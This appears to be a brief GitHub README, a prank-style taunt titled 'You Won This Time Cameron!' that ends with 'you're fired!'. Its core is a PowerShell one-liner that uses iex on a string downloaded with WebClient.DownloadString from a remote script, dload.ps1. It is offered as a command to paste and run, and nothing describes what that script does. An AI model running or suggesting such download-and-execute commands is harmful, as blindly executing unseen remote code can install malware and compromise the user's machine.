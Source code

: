 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/dload.ps1'))
```

Also, you're fired!
<p align="center">
  <img src="https://github.com/Refr3sh/YWTTC/raw/main/download.jpg" />
</p>
